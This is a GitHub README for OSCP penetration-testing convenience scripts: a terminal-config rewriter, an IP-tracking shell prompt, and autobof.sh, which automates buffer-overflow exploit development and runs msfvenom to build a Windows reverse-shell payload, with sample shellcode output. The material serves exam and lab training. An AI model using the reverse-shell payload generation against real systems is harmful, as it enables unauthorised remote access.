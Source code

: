 # OSCP
## OSCP Ergonomic Scripts and Configs

__config.bak__ - A terminator config file that will be used to launch terminator and execute commands like ($ autorecon $ip) 
             across different IP folders using broadcast all mode.

__autoterm.sh__ - A script that will replace the placeholder ProjectX and #1,2,3,4,5 with the ProjectName and the target IP's.

```bash
# Example - terminators config file is reset using config.bak and reconfigured with the new projects IPs
# $./autoterm.sh
# Insert your Kali IP (Default: 127.0.0.1): 192.168.0.104
# Insert your Kali Port (Default: 22): 2222
# Setting Kali IP to 192.168.0.104
# Setting Kali SSH Port to 2222
# Project Name: R
# IPs: 10.10.10.23 10.10.10.5
# Terminator config successfully changed.

#!/bin/bash
# Restore original config
cp ~/.config/terminator/config.bak ~/.config/terminator/config
count=0 #Counter for Number of IPs

# This host should be accessible using preset ssh-keys. SSH Password setup will break terminator.
read -a kalibox -p 'Insert your Kali IP (Default: 127.0.0.1): '
# The ssh service on this host should be running on port 22 by default
read -a kaliport -p 'Insert your Kali Port (Default: 22): ' 

if [ -z "$kalibox" ]
then 
  kalibox="127.0.0.1";
fi 

echo "Setting Kali IP to ${kalibox}"

if [ -z "$kaliport" ]
then 
  kaliport="22";
fi

echo "Setting Kali SSH Port to ${kaliport}"

read -a project -p 'Project Name: '
read -a ips -p 'IPs: '

if [ -z "$project" ]
then 
  echo "Project Name cannot be empty"
  exit 0
fi

if [ -z "$ips" ]
then 
  echo "Please specify some IPs"
  exit 0
fi 

for elem in ${ips[@]}
do
  if [[ ! "$elem" =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then 
    echo "Please specify real IPs"
    exit 0
  fi 
  count=$((count+1))
  sed -i "s/127.0.0.1/$kalibox/g" ~/.config/terminator/config
  sed -i "s/2222/$kaliport/g" ~/.config/terminator/config
  sed -i "s/projectX/$project/g" ~/.config/terminator/config 
  sed -i "s/#$count/$elem/g" ~/.config/terminator/config 
done

echo 'Terminator config successfully changed.'
```


__autobof.sh__ - A script of generating 'full hex shellcode characterset' -> 'hex shellcode with deducted badchars' -> 'msfpayload'. Autobof will automatically generate payloads and modify exploit.py payload variable. Note: You have to paste the final msfvenom into
exploit.py
__badcharset.py__ - A script for generating the full hex shellcode 
__exploit.py__ - A python script for testing for simple buffer overflow

```bash
# Author: Andrew Abwoga
# This script will automatically generate a characterset without the bad characters the user has specified
# Specify outlying bad characters (from mona): 01 02 03
# Specify lhost (for venom): 127.0.0.1
# [+] Bad character shellcode: \x01\x02\x03
# [+] Bad character deduction: 
# payload = "\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
# [+] Modifying exploit.py payload with characterset without bad characters...
# [+] msfvenom output: [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
# [-] No arch selected, selecting arch: x86 from the payload
# Found 11 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
# Attempting to encode payload with 1 iterations of generic/none
# generic/none failed with Encoding failed due to a bad character (index=40, char=0x01)
# Attempting to encode payload with 1 iterations of x86/call4_dword_xor
# x86/call4_dword_xor succeeded with size 348 (iteration=0)
# x86/call4_dword_xor chosen with final size 348
# Payload size: 348 bytes
# Final size of c file: 1488 bytes
# unsigned char buf[] = 
# "\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"...

#!/bin/bash

echo "Note: Provide empty inputs to generate a full characterset payload."
read -a badchars -p 'Specify outlying bad characters (from mona): ' 
read -a lhost -p 'Specify lhost (for venom): '

if [ -z "$badchars" ]
then
echo "[+] Full bad characterset payload: "
echo "payload = \"$(python2 badcharset.py)\""

echo "[+] Modifying exploit.py payload with full characterset..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
replacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' ) 
sed -i "/payload = \"\"/c $replacement" exploit.py
fi

if [ -n "$badchars" ]
then
echo -n "[+] Bad character shellcode: "
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
echo "$bc"

echo "[+] Bad character deduction: "
pattern=$(for i in ${badchars[@]}; do echo -n "s+x$i\\\++g; " ; done)
badcharsreplacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | sed "$pattern" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}')
echo $badcharsreplacement

echo "[+] Modifying exploit.py payload with characterset without bad characters..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c $badcharsreplacement" exploit.py
fi

if [ -n "$lhost" ]
then
echo -n "[+] msfvenom output: "
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
echo -E "$(msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 EXITFUNC=thread -b "$bc" -f c)"
fi
```
__dollar_ip_prompt_command.sh__ - Has a PROMPT_COMMAND env variable that will track a directory named using an IP on the current path (pwd)
                             and it will set the $ip env variable to that IP named directory. The code should be place on .bashrc or .zshrc. For zsh you have to add the line ```bash precmd() { eval "$PROMPT_COMMAND" }``` at the end of the .zshrc file

```bash
# Example - $ip env variable is automatically set using the code below
# $ mkdir 10.10.10.5
# $ cd 10.10.10.5
# $ autorecon $ip 

function prompt_command {
	unset ip #unset IP to make sure its not assigned
	nfields=$(echo $PWD | awk -F '/' '{print NF}') #get the number of directories along the path
	for i in $(seq $nfields) #iterate through the number of directories in the path
	do
		base=$(echo $PWD | awk -v i=$i -F '/' '{print $i}') #get a specific directory
		if [[ $base =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then #if that directory is an ip
			export ip=$base #export that ip 
		fi
	done
}
export PROMPT_COMMAND=prompt_command
```

[![Watch the video](https://i1.ytimg.com/vi/vRj62ltRSiY/sddefault.jpg)](https://www.youtube.com/watch?v=vRj62ltRSiY "Click to watch demo on Youtube")

